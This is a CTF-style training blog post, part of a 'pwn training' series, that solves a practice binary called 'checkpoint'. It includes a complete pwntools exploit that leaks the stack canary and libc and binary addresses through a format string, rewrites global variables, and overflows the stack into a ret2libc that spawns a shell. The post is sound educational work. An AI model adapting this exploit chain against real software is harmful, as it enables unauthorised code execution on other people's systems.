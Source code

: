 ```yaml
---
title: "Checkpoint [train 4]"
draft: false
tags: ["pwn", "training"]
date:  2024-01-14
series: ["pwn training"]
series_order: 4
level: Intermediate
description: This level acts as a checkpoint (name suggests). You will be combining the idea of format strings, buffer overflows, canaries from previous blogposts.
---
```


Congrats on reaching this level. This level acts as a checkpoint (name suggests). You will be combining the idea of format strings, buffer overflows, canaries from previous blogposts. Try this level on your own and check for hints when stuck.
<!--more-->

# Challenge:
Download below challenge file.

[FILES](/images/pwn-train4/checkpoint_1.zip)

# Solution:

## Mitigations:
![](/images/pwn-train4/ss2.png)
No need to explain mitigations right ? These are different protections created to rule out certain types of attacks, make hackers life a little harder.

## Code Walkthrough:

We are given the c code. Here in the main program, there is a while loop to run the format string vulnerability and finally a compare statement leading to a fgets call.

![](/images/pwn-train4/ss3.png)

## Sample run:
Runing the file tells us there is a format string exploit.
![](/images/pwn-train4/ss4.png)


## Exploit idea:
Here the challenge is direct and was made to recap what we learnt in the previous blogs. The attack plan is
* leaking a binary address, libc address, canary.
* make the strength variable = "STRENGTH"
* increase the size variable to a much larger value for a buffer overflow. (tricky part)

## Format string exploit:

We already know what format strings are... now leak the stack little by little and see what useful values you get. I got the following values:

```leak
16: my input
49: canary
51: a libc address
56: a binary address
```

Now you got the values so calculate the address relatively with the binary/libc or initialise the binary and libc as elf with the help of pwntools ELF() function.

```py
#Need to know the libc. (used by default libc for local purpose)
elf.address = int((str(leak[2])[4:-3]), 16) - elf.sym.__libc_csu_init
libc.address = int((str(leak[1])[4:-1]), 16) - 159923
canary = int((str(leak[0])[4:-1]), 16)
#My weird way of receiving and splitin.
```

## Formats again:
The second task was to change the value of the global variables and make it favourable for us.

```py
fmt = fmtstr_payload(16, {
    elf.sym.size: 500,
    elf.sym.strength: u64(b"STRENGTH"),
})
```
Here I am making the size variable much larger than buffer size, making strength variable equal to "STRENGTH" to pass the check.

## Buffer Overflow:
Finally you do a bit of fiddling to get the correct offset of the stack canary and overwrite with the leaked canary, then simply do a ret2libc.

## Exploit:
```py

from pwn import *

exe = './checkpoint'
context.binary = elf = ELF(exe)

libc = "/usr/lib/x86_64-linux-gnu/libc.so.6"
if(libc != ""):
	libc = ELF(libc)

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
b* main
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

'''
NOTES:
16: my input
49: canary
51: a libc address
56: a binary address
'''

p = start()

p.recv()
p.sendline(b"%49$p-%51$p-%56$p")
leak = p.recvline().split(b"-")

elf.address = int((str(leak[2])[4:-3]), 16) - elf.sym.__libc_csu_init
libc.address = int((str(leak[1])[4:-1]), 16) - 159923
canary = int((str(leak[0])[4:-1]), 16)

log.info(f"elf base: {hex(elf.address)}")
log.info(f"libc base: {hex(libc.address)}")

fmt = fmtstr_payload(16, {
    elf.sym.size: 500,
    elf.sym.strength: u64(b"STRENGTH"),
})

p.recv()
p.sendline(b"y")
p.send(fmt)

p.recv()
p.sendline(b"$p")
p.sendline(b"n")
p.sendline(b"A"*0x158 + p64(canary) + p64(0) + p64(elf.address + 0x1016) + p64(elf.address+0x151b)+ p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym.system))

p.interactive()

```

This was short and crisp since all these topics are already covered in the rest of the blogs. Happy Hacking.
